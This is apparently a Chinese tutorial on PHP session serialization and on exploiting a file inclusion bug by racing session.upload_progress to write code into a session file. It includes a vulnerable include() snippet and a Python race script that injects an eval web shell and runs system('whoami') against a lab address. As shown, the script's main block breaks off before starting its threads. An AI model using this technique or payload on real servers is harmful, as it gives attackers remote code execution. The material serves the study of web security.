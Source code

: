```php
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['session'] = $_GET['session'];
var_dump($_SESSION['session']);
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210524230630515.png#pic_center)

a:1表示$_SESSION数组中有 1 个元素，花括号里面的内容即为传入GET参数经过序列化后的值
## 利用session.upload_progress进行文件包含
利用条件
- 1. 存在文件包含漏洞
- 2. 知道session文件存放路径，可以尝试默认路径
- 3. 具有读取和写入session文件的权限

```php
示例代码

<?php
$b = $_GET['file'];
include "$b";
?>
```

可以发现，存在一个文件包含漏洞，但是找不到一个可以包含的恶意文件；其实，我们可以利用session.upload_progress将恶意语句写入session文件，从而包含session文件；前提需要知道session文件的存放位置


分析
>- **代码里没有session_start(),如何创建session文件呢：**
>其实，如果session.auto_start=On ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()；但默认情况下，这个选项都是关闭的；但session还有一个默认选项，session.use_strict_mode默认值为0；此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”；即使此时用户没有初始化Session，PHP也会自动初始化Session； 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里
- **默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容立即清空，如何进行rce：**
此时我们可以利用竞争，在session文件内容清空前进行包含利用

```python
利用脚本

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://192.168.43.236/H3rmesk1t/test.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://192.168.43.236/H3rmesk1t/test.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
            break
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
```